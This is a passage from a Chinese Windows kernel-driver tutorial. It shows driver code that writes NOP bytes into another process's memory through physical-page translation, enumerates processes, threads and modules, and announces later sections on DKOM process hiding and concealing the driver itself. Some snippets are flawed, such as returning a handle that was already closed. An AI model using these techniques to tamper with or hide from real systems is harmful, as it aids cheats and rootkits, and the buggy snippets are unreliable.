      Status = ReadPhysicalAddress(reinterpret_cast<PVOID>(PhysicalAddress), reinterpret_cast<PVOID>((PVOID *)ReadBuffer + read), ReadSize, &BytesTransferred);
      TargetSize -= BytesTransferred;
      read += BytesTransferred;

      if (!NT_SUCCESS(Status))
      {
        break;
      }

      if (!BytesTransferred)
      {
        break;
      }
    }

    // 关闭引用
    ObDereferenceObject(pEProcess);

    // 输出读取字节
    for (size_t i = 0; i < 4; i++)
    {
      DbgPrint("[读入字节 [%d] ] => 0x%02X \n", i, ReadBuffer[i]);
    }
  }

  // 关闭引用
  UNREFERENCED_PARAMETER(path);

  // 卸载驱动
  pDriver->DriverUnload = DriverUnload;
  return STATUS_SUCCESS;
}
```

编译并运行上述代码片段，则会读取进程ID为`4116`的`0x401000`处的地址数据，并以字节的方式输出前四位，输出效果图如下所示；



#### 3.10.3 实现物理页写内存

写出数据与读取数据基本一致，只是调用方法从`ReadPhysicalAddress`变为了`WritePhysicalAddress`其他的照旧，但需要注意的是读者再使用写出时需要自行填充一段堆用于存储需要写出的字节集。
```c
// 驱动卸载例程
extern "C" VOID DriverUnload(PDRIVER_OBJECT pDriver)
{
  UNREFERENCED_PARAMETER(pDriver);
  DbgPrint("Uninstall Driver \n");
}

// 驱动入口地址
extern "C" NTSTATUS DriverEntry(PDRIVER_OBJECT pDriver, PUNICODE_STRING path)
{
  DbgPrint("Hello LyShark \n");

  // 物理页写
  PEPROCESS pEProcess = NULL;
  NTSTATUS Status = PsLookupProcessByProcessId((HANDLE)4116, &pEProcess);

  // 判断pEProcess是否有效
  if (NT_SUCCESS(Status) && pEProcess != NULL)
  {
    ULONG64 TargetAddress = 0x401000;
    SIZE_T TargetSize = 4;
    SIZE_T read = 0;

    // 申请空间并填充写出字节0x90
    BYTE* ReadBuffer = (BYTE *)ExAllocatePool(NonPagedPool, 1024);

    for (size_t i = 0; i < 4; i++)
    {
      ReadBuffer[i] = 0x90;
    }

    // 获取CR3用于转换
    PUCHAR Var = reinterpret_cast<PUCHAR>(pEProcess);
    ULONG64 CR3 = *(ULONG64*)(Var + bit64);
    if (!CR3)
    {
      CR3 = *(ULONG64*)(Var + GetDirectoryTableOffset);
      // DbgPrint("[CR3] 寄存器地址 = 0x%p \n", CR3);
    }

    while (TargetSize)
    {
      // 开始循环切换到CR3
      ULONG64 PhysicalAddress = TransformationCR3(CR3, TargetAddress + read);
      if (!PhysicalAddress)
      {
        break;
      }

      // 写入物理内存
      ULONG64 WriteSize = min(PAGE_SIZE - (PhysicalAddress & 0xfff), TargetSize);
      SIZE_T BytesTransferred = 0;
      Status = WritePhysicalAddress(reinterpret_cast<PVOID>(PhysicalAddress), reinterpret_cast<PVOID>(ReadBuffer + read), WriteSize, &BytesTransferred);
      TargetSize -= BytesTransferred;
      read += BytesTransferred;

      // DbgPrint("[写出数据] => %d | %0x02X \n", WriteSize, ReadBuffer + read);
      if (!NT_SUCCESS(Status))
      {
        break;
      }

      if (!BytesTransferred)
      {
        break;
      }
    }

    // 关闭引用
    ObDereferenceObject(pEProcess);
  }

  // 关闭引用
  UNREFERENCED_PARAMETER(path);

  // 卸载驱动
  pDriver->DriverUnload = DriverUnload;
  return STATUS_SUCCESS;
}
```
如上代码运行后，会向进程ID为`4116`的`0x401000`处写出4字节的`0x90`机器码，读者可通过第三方工具验证内存，输出效果如下所示；




## 第四篇：内核进程线程操作

本篇文章将深入探讨内核进程与线程相关的主题，包括如何在内核中进行进程与句柄互相转换，枚举进程线程与模块的方法，监控进程与线程的创建过程，以及实现DKOM隐藏进程的技术。我们也会学习如何在内核中实现Dump进程转存，遍历进程VAD结构体，以及无痕隐藏自身驱动的方法。最后，我们将了解如何在内核中强制结束进程。

首先，我们将介绍如何在内核中进行进程与句柄互相转换，这是进行内核级别操作的重要步骤。接下来，我们将探讨如何枚举进程线程与模块，以及如何监控进程与线程创建过程。我们还将深入研究如何使用DKOM技术来隐藏进程。

在学习完如何隐藏进程之后，我们将了解如何在内核中实现Dump进程转存，遍历进程VAD结构体，以及无痕隐藏自身驱动的方法。最后，我们将介绍如何在内核中强制结束进程。

本文将深入挖掘内核进程与线程的相关技术，为驱动开发人员提供一个全面的参考。无论你是初学者还是经验丰富的开发人员，这篇文章都会为你提供有用的知识和技巧，帮助你在驱动开发领域取得成功。

### 4.1 内核中进程与句柄互转

在内核开发中，经常需要进行进程和句柄之间的互相转换。进程通常由一个唯一的进程标识符（PID）来标识，而句柄是指对内核对象的引用。在Windows内核中，`EProcess`结构表示一个进程，而HANDLE是一个句柄。

为了实现进程与句柄之间的转换，我们需要使用一些内核函数。对于进程PID和句柄的互相转换，可以使用函数如`OpenProcess`和`GetProcessId`。OpenProcess函数接受一个PID作为参数，并返回一个句柄。GetProcessId函数接受一个句柄作为参数，并返回该进程的PID。

对于进程PID和`EProcess`结构的互相转换，可以使用函数如`PsGetProcessId`和`PsGetCurrentProcess`。PsGetProcessId函数接受一个`EProcess`结构作为参数，并返回该进程的PID。`PsGetCurrentProcess`函数返回当前进程的`EProcess`结构。

最后，对于句柄和`EProcess`结构的互相转换，可以使用函数如`ObReferenceObjectByHandle和PsGetProcessId`。ObReferenceObjectByHandle函数接受一个句柄和一个对象类型作为参数，并返回对该对象的引用。`PsGetProcessId`函数接受一个EProcess结构作为参数，并返回该进程的PID。

掌握这些内核函数的使用，可以方便地实现进程与句柄之间的互相转换。在进行进程和线程的内核开发之前，了解这些转换功能是非常重要的。

#### 4.1.1 进程PID与进程HANDLE转换

进程`PID`转化为`HANDLE`句柄，可通过`ZwOpenProcess`这个内核函数，传入`PID`传出进程`HANDLE`句柄，如果需要将`HANDLE`句柄转化为`PID`则可通过`ZwQueryInformationProcess`这个内核函数来实现，具体转换实现方法如下所示；

在内核开发中，经常需要进行进程`PID`和句柄`HANDLE`之间的互相转换。将进程`PID`转化为句柄`HANDLE`的方法是通过调用`ZwOpenProcess`内核函数，传入PID作为参数，函数返回对应进程的句柄HANDLE。具体实现方法是，定义一个`OBJECT_ATTRIBUTES`结构体和`CLIENT_ID`结构体，将进程PID赋值给`CLIENT_ID`结构体的`UniqueProcess`字段，调用`ZwOpenProcess`函数打开进程，如果函数执行成功，将返回进程句柄HANDLE，否则返回NULL。

将句柄`HANDLE`转化为进程`PID`的方法是通过调用`ZwQueryInformationProcess`内核函数，传入进程句柄和信息类别作为参数，函数返回有关指定进程的信息，包括进程PID。具体实现方法是，定义一个`PROCESS_BASIC_INFORMATION`结构体和一个`NTSTATUS`变量，调用`ZwQueryInformationProcess`函数查询进程基本信息，如果函数执行成功，将返回进程PID，否则返回0。

其中`ZwQueryInformationProcess`是一个未被导出的函数如需使用要通过`MmGetSystemRoutineAddress`动态获取到，该函数的原型定义如下：
```c
NTSTATUS ZwQueryInformationProcess(
  HANDLE           ProcessHandle,
  PROCESSINFOCLASS ProcessInformationClass,
  PVOID            ProcessInformation,
  ULONG            ProcessInformationLength,
  PULONG           ReturnLength
);
```
函数可以接受一个进程句柄`ProcessHandle`、一个`PROCESSINFOCLASS`枚举类型的参数`ProcessInformationClass`、一个用于存储返回信息的缓冲区`ProcessInformation`、缓冲区大小`ProcessInformationLength`和一个指向ULONG类型变量的指针`ReturnLength`作为参数。

在调用该函数时，`ProcessInformationClass`参数指定要获取的进程信息的类型。例如，如果要获取进程的基本信息，则需要将该参数设置为`ProcessBasicInformation`；如果要获取进程的映像文件名，则需要将该参数设置为`ProcessImageFileName`。调用成功后，返回的信息存储在`ProcessInformation`缓冲区中。

在调用该函数时，如果`ProcessInformation`缓冲区的大小小于需要返回的信息大小，则该函数将返回`STATUS_INFO_LENGTH_MISMATCH`错误代码，并将所需信息的大小存储在`ReturnLength`指针指向的ULONG类型变量中。

ZwQueryInformationProcess函数的返回值为`NTSTATUS`类型，表示函数执行的结果状态。如果函数执行成功，则返回`STATUS_SUCCESS`，否则返回其他错误代码。

掌握这些转换方法可以方便地在内核开发中进行进程PID和句柄HANDLE之间的互相转换。
```c
#include <ntifs.h>

// 定义函数指针
typedef NTSTATUS(*PfnZwQueryInformationProcess)(
    __in HANDLE ProcessHandle,
    __in PROCESSINFOCLASS ProcessInformationClass,
    __out_bcount(ProcessInformationLength) PVOID ProcessInformation,
    __in ULONG ProcessInformationLength,
    __out_opt PULONG ReturnLength
);

PfnZwQueryInformationProcess ZwQueryInformationProcess;

// 传入PID传出HANDLE句柄
HANDLE PidToHandle(ULONG PID)
{
    HANDLE hProcessHandle;
    OBJECT_ATTRIBUTES obj;
    CLIENT_ID clientid;

    clientid.UniqueProcess = PID;
    clientid.UniqueThread = 0;

    // 属性初始化
    InitializeObjectAttributes(&obj, 0, OBJ_CASE_INSENSITIVE | OBJ_KERNEL_HANDLE, 0, 0);

    NTSTATUS status = ZwOpenProcess(&hProcessHandle, PROCESS_ALL_ACCESS, &obj, &clientid);
    if (status == STATUS_SUCCESS)
    {
        // DbgPrint("[*] 已打开 \n");
        ZwClose(&hProcessHandle);
        return hProcessHandle;
    }

    return 0;
}

// HANDLE句柄转换为PID
ULONG HandleToPid(HANDLE handle)
{
    PROCESS_BASIC_INFORMATION ProcessBasicInfor;

    // 初始化字符串，并获取动态地址
    UNICODE_STRING UtrZwQueryInformationProcessName = RTL_CONSTANT_STRING(L"ZwQueryInformationProcess");
    ZwQueryInformationProcess = (PfnZwQueryInformationProcess)MmGetSystemRoutineAddress(&UtrZwQueryInformationProcessName);

    // 调用查询
    ZwQueryInformationProcess(
        handle,
        ProcessBasicInformation,
        (PVOID)&ProcessBasicInfor,
        sizeof(ProcessBasicInfor),
        NULL);

    // 返回进程PID
    return ProcessBasicInfor.UniqueProcessId;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("[-] 驱动卸载 \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("Hello LyShark \n");

    // 将PID转换为HANDLE
    HANDLE ptr = PidToHandle(6932);
    DbgPrint("[*] PID  --> HANDLE = %p \n", ptr);

    // 句柄转为PID
    ULONG pid = HandleToPid(ptr);

    DbgPrint("[*] HANDLE  --> PID = %d \n", pid);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

编译并运行如上这段代码片段，将把进程PID转为HANDLE句柄，再通过句柄将其转为PID，输出效果图如下所示；



#### 4.1.2 进程PID转换为EProcess结构

通过`PsLookUpProcessByProcessId`函数，该函数传入一个`PID`则可获取到该PID的`EProcess`结构体，具体转换实现方法如下所示；

本段代码展示了如何使用Windows内核API函数`PsLookupProcessByProcessId`将一个PID（Process ID）转换为对应的`EProcess`结构体，EProcess是Windows内核中描述进程的数据结构之一。

代码段中定义了一个名为`PidToObject`的函数，该函数的输入参数是一个`PID`，输出参数是对应的`EProcess`结构体。

在函数中，通过调用`PsLookupProcessByProcessId`函数来获取对应PID的`EProcess`结构体，如果获取成功，则调用`ObDereferenceObject`函数来减少`EProcess`对象的引用计数，并返回获取到的`EProcess`指针；否则返回0。

在`DriverEntry`函数中，调用了`PidToObject`函数将PID 6932转换为对应的`EProcess`结构体，并使用`DbgPrint`函数输出了转换结果。最后设置了驱动程序卸载函数为`UnDriver`，当驱动程序被卸载时，`UnDriver`函数会被调用。
```c
#include <ntifs.h>
#include <windef.h>

// 将Pid转换为Object or EProcess
PEPROCESS PidToObject(ULONG Pid)
{
    PEPROCESS pEprocess;

    NTSTATUS status = PsLookupProcessByProcessId((HANDLE)Pid, &pEprocess);

    if (status == STATUS_SUCCESS)
    {
        ObDereferenceObject(pEprocess);
        return pEprocess;
    }

    return 0;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("[-] 驱动卸载 \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("Hello LyShark \n");

    // 将PID转换为PEPROCESS
    PEPROCESS ptr = PidToObject(6932);
    DbgPrint("[*] PID  --> PEPROCESS = %p \n", ptr);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

编译并运行如上这段代码片段，将把进程PID转为EProcess结构，输出效果图如下所示；



#### 4.1.3 进程HANDLE与EPROCESS转换

将`Handle`转换为`EProcess`结构可使用内核函数`ObReferenceObjectByHandle`实现，反过来`EProcess`转换为`Handle`句柄可使用`ObOpenObjectByPointer`内核函数实现，具体转换实现方法如下所示；

首先，将`Handle`转换为`EProcess`结构体，可以使用`ObReferenceObjectByHandle`内核函数。该函数接受一个`Handle`参数，以及对应的对象类型（这里为EProcess），并返回对应对象的指针。此函数会对返回的对象增加引用计数，因此在使用完毕后，需要使用`ObDereferenceObject`将引用计数减少。

其次，将`EProcess`结构体转换为`Handle`句柄，可以使用`ObOpenObjectByPointer`内核函数。该函数接受一个指向对象的指针（这里为EProcess结构体的指针），以及所需的访问权限和对象类型，并返回对应的`Handle`句柄。此函数会将返回的句柄添加到当前进程的句柄表中，因此在使用完毕后，需要使用`CloseHandle`函数将句柄关闭，以避免资源泄漏。

综上所述，我们可以通过这两个内核函数实现`Handle`和`EProcess`之间的相互转换，转换代码如下所示；
```c
#include <ntifs.h>
#include <windef.h>

// 传入PID传出HANDLE句柄
HANDLE PidToHandle(ULONG PID)
{
    HANDLE hProcessHandle;
    OBJECT_ATTRIBUTES obj;
    CLIENT_ID clientid;

    clientid.UniqueProcess = PID;
    clientid.UniqueThread = 0;

    // 属性初始化
    InitializeObjectAttributes(&obj, 0, OBJ_CASE_INSENSITIVE | OBJ_KERNEL_HANDLE, 0, 0);

    NTSTATUS status = ZwOpenProcess(&hProcessHandle, PROCESS_ALL_ACCESS, &obj, &clientid);
    if (status == STATUS_SUCCESS)
    {
        // DbgPrint("[*] 已打开 \n");
        ZwClose(&hProcessHandle);
        return hProcessHandle;
    }

    return 0;
}

// 将Handle转换为EProcess结构
PEPROCESS HandleToEprocess(HANDLE handle)
{
    PEPROCESS pEprocess;

    NTSTATUS status = ObReferenceObjectByHandle(handle, GENERIC_ALL, *PsProcessType, KernelMode, &pEprocess, NULL);
    if (status == STATUS_SUCCESS)
    {
        return pEprocess;
    }

    return 0;
}

// EProcess转换为Handle句柄
HANDLE EprocessToHandle(PEPROCESS eprocess)
{
    HANDLE hProcessHandle = (HANDLE)-1;

    NTSTATUS status = ObOpenObjectByPointer(
        eprocess,
        OBJ_KERNEL_HANDLE,
        0,
        0,
        *PsProcessType,
        KernelMode,
        &hProcessHandle
        );

    if (status == STATUS_SUCCESS)
    {
        return hProcessHandle;
    }

    return 0;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("[-] 驱动卸载 \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("Hello LyShark \n");

    // 将Handle转换为EProcess结构
    PEPROCESS eprocess = HandleToEprocess(PidToHandle(6932));
    DbgPrint("[*] HANDLE --> EProcess = %p \n", eprocess);

    // 将EProcess结构转换为Handle
    HANDLE handle = EprocessToHandle(eprocess);
    DbgPrint("[*] EProcess --> HANDLE = %p \n", handle);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

编译并运行如上这段代码片段，将把进程`HANDLE`与`EProcess`结构互转，输出效果图如下所示；



### 4.2 内核中枚举进线程与模块

内核进程线程和模块是操作系统内核中非常重要的概念。它们是操作系统的核心部分，用于管理系统资源和处理系统请求。在驱动安全开发中，理解内核进程线程和模块的概念对于编写安全的内核驱动程序至关重要。

内核进程是在操作系统内核中运行的程序。每个进程都有一个唯一的进程标识符（PID），它用于在系统中唯一地标识该进程。在内核中，进程被表示为一个进程控制块（PCB），它包含有关进程的信息，如进程状态、优先级、内存使用情况等。枚举进程可以让我们获取当前系统中所有正在运行的进程的PID和其他有用的信息，以便我们可以监视和管理系统中的进程。

线程是在进程内部执行的轻量级执行单元。与进程不同，线程不拥有自己的地址空间和系统资源，它们共享它们所属进程的资源。在内核中，线程被表示为线程控制块（TCB），它包含有关线程的信息，如线程状态、调度信息、执行上下文等。枚举线程可以让我们获取当前系统中所有正在运行的线程的PID、线程ID和其他有用的信息，以便我们可以监视和管理系统中的线程。

内核模块是一种可加载的内核组件，它可以动态地添加到内核中。内核模块通常用于向内核添加新的设备驱动程序或系统功能。在驱动安全开发中，理解内核模块的概念对于编写安全的内核驱动程序非常重要。枚举内核模块可以让我们获取当前系统中加载的所有内核模块的名称、版本号和其他有用的信息，以便我们可以分析和调试内核模块。

在总体上，内核进程线程和模块是操作系统内核中非常重要的概念。通过了解这些概念，我们可以更好地理解操作系统内部的工作原理，从而编写更安全的内核驱动程序。

#### 4.2.1 内核中实现枚举进程

进程就是活动起来的程序，每一个进程在内核里，都有一个名为 `EPROCESS` 的结构记录它的详细信息，其中就包括进程名，PID，PPID，进程路径等，通常在应用层枚举进程只列出所有进程的编号即可，不过在内核层需要把它的 EPROCESS 地址给列举出来。

在内核中枚举进程我们可通过循环语句遍历进程句柄`0-100000`以内的值，每次通过`PsLookupProcessByProcessId`打开一个进程并得到进程`EPROCESS`结构，当获取到该结构体时只需要调用不同的三个内核函数即可获取到当前句柄所对应的进程相关信息。

当我们需要通过`EPROCESS`得到`进程名`时可使用`PsGetProcessImageFileName()`这个内核函数，该函数的具体定义规范如下所示；
```c
PCHAR PsGetProcessImageFileName(
  PEPROCESS Process
);
```
其中，参数`Process`是一个`PEPROCESS`类型的指针，表示要获取映像文件名的进程的`EPROCESS`结构体指针；返回值是一个`PCHAR`类型的指针，指向包含指定进程映像文件名的空字符结尾字符串。

与之功能类似，当我们需要通过`EPROCESS`获取进程`PID`时，则可以调用`PsGetProcessId()`来获取到，该函数的具体定义规范如下所示；
```c
HANDLE PsGetProcessId(
  PEPROCESS Process
);
```
其中，参数`Process`是一个`PEPROCESS`类型的指针，表示要获取进程`ID`的进程的`EPROCESS`结构体指针；返回值是一个`HANDLE`类型的进程`ID`值。

而如果当我们想要获取到进程的父进程时，则同样可使用`PsGetProcessInheritedFromUniqueProcessId()`来获取，该函数的具体定义规范如下所示；
```c
HANDLE PsGetProcessInheritedFromUniqueProcessId(
  PEPROCESS Process
);
```
其中，参数`Process`是一个`PEPROCESS`类型的指针，表示要获取父进程ID的进程的`EPROCESS`结构体指针；返回值是一个`HANDLE`类型的父进程ID值。

有了这三个函数的支持，我们就可以实现遍历当前所有运行的进程啦，具体实现代码如下所示；
```c
#include <ntifs.h>

// 未公开的进行导出即可
NTKERNELAPI UCHAR* PsGetProcessImageFileName(IN PEPROCESS Process);

// 未公开进行导出
NTKERNELAPI HANDLE PsGetProcessInheritedFromUniqueProcessId(IN PEPROCESS Process);

// 根据进程ID返回进程EPROCESS结构体,失败返回NULL
PEPROCESS LookupProcess(HANDLE Pid)
{
    PEPROCESS eprocess = NULL;
    NTSTATUS Status = STATUS_UNSUCCESSFUL;
    Status = PsLookupProcessByProcessId(Pid, &eprocess);
    if (NT_SUCCESS(Status))
        return eprocess;
    return NULL;
}

VOID EnumProcess()
{
    PEPROCESS eproc = NULL;
    for (int temp = 0; temp < 100000; temp += 4)
    {
        eproc = LookupProcess((HANDLE)temp);
        if (eproc != NULL)
        {
            DbgPrint("进程名: %s --> 进程PID = %d --> 父进程PPID = %d\r\n",PsGetProcessImageFileName(eproc),PsGetProcessId(eproc),
                PsGetProcessInheritedFromUniqueProcessId(eproc));
            ObDereferenceObject(eproc);
        }
    }
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint(("Uninstall Driver Is OK \n"));
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    EnumProcess();
    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

输出效果图如下所示：



#### 4.2.2 内核中实现枚举线程

内核线程的枚举与枚举进程十分相似，内核线程中也存在一个`ETHREAD`结构，但在枚举线程之前需要先来枚举到指定进程的`eprocess`结构，然后再根据`eprocess`结构对指定线程进行枚举。

在内核中实现枚举线程需要遵循以下步骤：

 - 枚举指定进程的`eprocess`结构：在内核中，每个进程都有一个唯一的`eprocess`结构表示，该结构包含了该进程的各种信息，包括其线程列表。首先，需要枚举到指定进程的`eprocess`结构。可以通过访问系统的进程链表，找到该进程的`eprocess`结构。
 - 遍历线程列表：一旦枚举到了指定进程的`eprocess`结构，就可以通过该结构中的线程列表来枚举该进程的所有线程。线程列表中包含每个线程的ETHREAD结构。
 - 枚举每个线程的`ETHREAD`结构：遍历线程列表，对于每个线程，可以通过其`ETHREAD`结构访问该线程的各种信息，包括其状态、优先级、CPU时间等等。
 - 处理枚举结果：枚举过程中可以将每个线程的`ETHREAD`结构存储到一个缓冲区中，以便后续处理。

需要注意的是，在枚举线程的过程中，需要保证访问的安全性和正确性。例如，需要确保在访问每个线程的`ETHREAD`结构时，该线程不会被销毁或修改。同时，还需要考虑内核与用户空间的交互，以及多处理器系统中的并发访问等问题。

为了能写出完整的代码，这里我们还需要介绍三个未导出函数，`PsGetProcessImageFileName`，`PsLookupThreadByThreadId`，`IoThreadToProcess`这三个函数是实现枚举线程的关键，它们提供了枚举线程相关的关键功能；

PsGetProcessImageFileName 函数的作用是获取指定进程的可执行文件名。在枚举线程时，可以使用该函数获取线程所属进程的可执行文件名，从而可以更方便地识别线程。
```c
NTKERNELAPI PCHAR PsGetProcessImageFileName(IN PEPROCESS Process)
```
其中，`PEPROCESS`是一个指向进程对象的指针，该函数将返回一个指向进程可执行文件名的指针。

PsLookupThreadByThreadId 函数的作用是根据线程ID查找线程对象。在枚举线程时，可以使用该函数根据线程ID获取线程对象的指针，进而获取线程的相关信息。
```c
NTKERNELAPI PETHREAD PsLookupThreadByThreadId(IN HANDLE ThreadId)
```
其中，`HANDLE`是一个线程ID，该函数将返回一个指向线程对象的指针。

IoThreadToProcess 函数的作用是获取线程所属进程的指针。在枚举线程时，可以使用该函数获取线程所属进程的指针，进而获取进程的相关信息。
```c
NTKERNELAPI PEPROCESS IoThreadToProcess(IN PETHREAD Thread)
```
其中，`PETHREAD`是一个指向线程对象的指针，该函数将返回一个指向线程所属进程的指针。

有了上述三个函数的支持，那么实现枚举线程就变得非常简单了，`EnumThread`则是用于实现线程枚举的核心代码；

 - 首先，定义了一个用于循环遍历线程ID的变量i，并且初始化为4，因为Windows系统的线程ID从4开始。
 - 定义了两个指针类型的变量ethrd和eproc，用于保存获取到的线程对象和线程所属进程对象的指针。
 - 循环遍历线程ID，每次增加4，直到262144为止。这个范围应该是保守估计，实际上可能更小，因为一般来说系统中并不会存在那么多的线程。
 - 调用LookupThread函数，根据线程ID查找线程对象。如果找到了线程对象，则获取线程所属进程对象的指针，并且判断该进程对象是否与指定的进程对象相同。
 - 如果是指定的进程对象，则打印出线程对象和线程ID。最后释放线程对象的引用计数。

其完整实现代码如下所示；
```c
#include <ntddk.h>
#include <windef.h>

// 声明API
NTKERNELAPI UCHAR* PsGetProcessImageFileName(IN PEPROCESS Process);
NTKERNELAPI NTSTATUS PsLookupProcessByProcessId(HANDLE Id, PEPROCESS *Process);
NTKERNELAPI NTSTATUS PsLookupThreadByThreadId(HANDLE Id, PETHREAD *Thread);
NTKERNELAPI PEPROCESS IoThreadToProcess(PETHREAD Thread);

// 根据进程ID返回进程EPROCESS，失败返回NULL
PEPROCESS LookupProcess(HANDLE Pid)
{
    PEPROCESS eprocess = NULL;
    if (NT_SUCCESS(PsLookupProcessByProcessId(Pid, &eprocess)))
        return eprocess;
    else
        return NULL;
}

// 根据线程ID返回线程ETHREAD，失败返回NULL
PETHREAD LookupThread(HANDLE Tid)
{
    PETHREAD ethread;
    if (NT_SUCCESS(PsLookupThreadByThreadId(Tid, &ethread)))
        return ethread;
    else
        return NULL;
}

// 枚举指定进程中的线程
VOID EnumThread(PEPROCESS Process)
{
    ULONG i = 0, c = 0;
    PETHREAD ethrd = NULL;
    PEPROCESS eproc = NULL;

  // 一般来说没有超过100000的PID和TID
    for (i = 4; i<262144; i = i + 4)
    {
        ethrd = LookupThread((HANDLE)i);
        if (ethrd != NULL)
        {
            // 获得线程所属进程
            eproc = IoThreadToProcess(ethrd);
            if (eproc == Process)
            {
                // 打印出ETHREAD和TID
                DbgPrint("线程: ETHREAD=%p TID=%ld\n",ethrd,(ULONG)PsGetThreadId(ethrd));
            }
            ObDereferenceObject(ethrd);
        }
    }
}

// 通过枚举的方式定位到指定的进程，这里传递一个进程名称
VOID MyEnumThread(char *ProcessName)
{
    ULONG i = 0;
    PEPROCESS eproc = NULL;
    for (i = 4; i<100000000; i = i + 4)
    {
        eproc = LookupProcess((HANDLE)i);
        if (eproc != NULL)
        {
            ObDereferenceObject(eproc);
            if (strstr(PsGetProcessImageFileName(eproc), ProcessName) != NULL)
            {
        // 相等则说明是我们想要的进程，直接枚举其中的线程
                EnumThread(eproc);
            }
        }
    }
}

VOID DriverUnload(IN PDRIVER_OBJECT DriverObject)
{

}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT DriverObject, IN PUNICODE_STRING RegistryPath)
{
    MyEnumThread("lyshark.exe");
    DriverObject->DriverUnload = DriverUnload;
    return STATUS_SUCCESS;
}
```

输出效果图如下所示：



#### 4.2.3 内核中实现枚举进程模块

枚举进程中的所有模块信息，DLL模块信息被记录在`PEB`的`LDR`链表里，LDR是一个双向链表枚举链表即可。

在操作系统内核中实现枚举进程模块的过程中，需要首先访问进程的PEB（进程环境块）数据结构。PEB是一个系统数据结构，记录了进程的各种信息，包括进程的内存布局、环境变量、进程的模块列表等。

进程的模块信息被记录在PEB的LDR（Loader）链表中。这个链表是一个双向链表，记录了进程的所有模块，包括已加载和未加载的模块。

要枚举进程中的所有模块信息，需要遍历LDR链表。在遍历LDR链表时，可以通过遍历双向链表中的节点来获取每个模块的详细信息，如模块的基址、模块的大小、模块的名称等。

遍历LDR链表的过程中，可以使用双向链表的常见操作，如while循环遍历，或使用指针的操作来访问下一个或上一个节点。在访问每个节点时，可以通过节点的指针访问节点中记录的模块信息，例如通过节点的指针访问模块的基址、大小、名称等信息。

通过枚举LDR链表，可以获取进程中的所有模块信息，并且可以在内核中对这些模块进行操作，如卸载模块、加载模块等。

在开始实现枚举进程模块之前，我们需要手动寻找`peb.ldr`以及`peb.ldr.InLoadOrderModuleList`的实际偏移地址，该偏移地址在不同的系统内是不同的，通过`WinDBG`调试Windows系统，并输入如下命令，即可找到我们所需的内核偏移值；
```c
1: kd> dt _PEB
ntdll!_PEB
   +0x000 InheritedAddressSpace : UChar
   +0x001 ReadImageFileExecOptions : UChar
   +0x002 BeingDebugged    : UChar
   +0x003 BitField         : UChar
   +0x003 ImageUsesLargePages : Pos 0, 1 Bit
   +0x003 IsProtectedProcess : Pos 1, 1 Bit
   +0x003 IsImageDynamicallyRelocated : Pos 2, 1 Bit
   +0x003 SkipPatchingUser32Forwarders : Pos 3, 1 Bit
   +0x003 IsPackagedProcess : Pos 4, 1 Bit
   +0x003 IsAppContainer   : Pos 5, 1 Bit
   +0x003 IsProtectedProcessLight : Pos 6, 1 Bit
   +0x003 IsLongPathAwareProcess : Pos 7, 1 Bit
   +0x004 Padding0         : [4] UChar
   +0x008 Mutant           : Ptr64 Void
   +0x010 ImageBaseAddress : Ptr64 Void
   +0x018 Ldr              : Ptr64 _PEB_LDR_DATA                   // LDR结构
   +0x020 ProcessParameters : Ptr64 _RTL_USER_PROCESS_PARAMETERS

1: kd> dt _PEB_LDR_DATA
ntdll!_PEB_LDR_DATA
   +0x000 Length           : Uint4B
   +0x004 Initialized      : UChar
   +0x008 SsHandle         : Ptr64 Void
   +0x010 InLoadOrderModuleList : _LIST_ENTRY                     // 链表结构
   +0x020 InMemoryOrderModuleList : _LIST_ENTRY
   +0x030 InInitializationOrderModuleList : _LIST_ENTRY
   +0x040 EntryInProgress  : Ptr64 Void
   +0x048 ShutdownInProgress : UChar
   +0x050 ShutdownThreadId : Ptr64 Void
```

获取到这两个关键偏移值以后，接下来就是封装`EnumModule`实现函数了，如下方核心代码的核心是在内核模式下枚举指定进程的模块列表，并打印每个模块的基址、大小和路径。它首先获取指定进程的 PEB，然后通过访问进程的 Ldr 数据结构获取模块列表信息，并使用 ProbeForRead 函数测试访问内存的可读性。

通过循环将所有的`Module`格式化为`PLDR_DATA_TABLE_ENTRY`结构并打印每个模块的信息，输出结束后取消对进程的依附，以此来实现枚举进程内所有的加载模块信息；
```c
#include <ntddk.h>
#include <windef.h>

// 声明结构体
typedef struct _KAPC_STATE
{
    LIST_ENTRY ApcListHead[2];
    PKPROCESS Process;
    UCHAR KernelApcInProgress;
    UCHAR KernelApcPending;
    UCHAR UserApcPending;
} KAPC_STATE, *PKAPC_STATE;

typedef struct _LDR_DATA_TABLE_ENTRY
{
    LIST_ENTRY64    InLoadOrderLinks;
    LIST_ENTRY64    InMemoryOrderLinks;
    LIST_ENTRY64    InInitializationOrderLinks;
    PVOID           DllBase;
    PVOID           EntryPoint;
    ULONG           SizeOfImage;
    UNICODE_STRING  FullDllName;
    UNICODE_STRING  BaseDllName;
    ULONG           Flags;
    USHORT          LoadCount;
    USHORT          TlsIndex;
    PVOID           SectionPointer;
    ULONG           CheckSum;
    PVOID           LoadedImports;
    PVOID           EntryPointActivationContext;
    PVOID           PatchInformation;
    LIST_ENTRY64    ForwarderLinks;
    LIST_ENTRY64    ServiceTagLinks;
    LIST_ENTRY64    StaticLinks;
    PVOID           ContextInformation;
    ULONG64         OriginalBase;
    LARGE_INTEGER   LoadTime;
} LDR_DATA_TABLE_ENTRY, *PLDR_DATA_TABLE_ENTRY;

// peb.ldr
ULONG64 LdrInPebOffset = 0x018;

// peb.ldr.InLoadOrderModuleList
ULONG64 ModListInPebOffset = 0x010;

// 声明API
NTKERNELAPI UCHAR* PsGetProcessImageFileName(IN PEPROCESS Process);
